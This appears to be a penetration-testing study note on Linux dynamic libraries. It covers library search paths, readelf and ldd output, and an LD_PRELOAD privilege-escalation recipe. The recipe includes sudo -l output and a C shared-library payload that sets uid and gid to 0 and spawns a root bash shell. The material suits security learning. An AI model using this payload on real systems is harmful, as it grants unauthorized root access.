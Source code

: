 
**When a program is compiled:**  
- static libraries become part of the program and can not be altered. 
- dynamic libraries can be modified to control the execution of the program that calls them.

**ways to specify the location of dynamic libraries:**

- `-rpath` or -`rpath-link` flags: These flags are used during compilation to specify additional directories to search for dynamic libraries.
- Environmental variables:
    - `LD_RUN_PATH`: Similar to `-rpath`, but set as an environment variable. It affects the search path at runtime.
    - `LD_LIBRARY_PATH` : This variable is used to specify additional directories to search for shared libraries at runtime. It overrides the default search path.
- Default directories: By default, the system looks in /lib and /usr/lib directories for shared libraries.
- `/etc/ld.so.conf` configuration file: This file contains a list of directories to search for shared libraries.
- Directories listed in the application’s `RUNPATH` value
```shell
readelf -d <binary>  | grep PATH
```


The shared objects required by a binary can be viewed using the ldd utility.

```shell
$ ldd /bin/ls

	linux-vdso.so.1 =>  (0x00007fff03bc7000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
```

### LD_PRELOAD Privilege Escalation

check the sudo
```
sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```
make a dynamic library
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

```
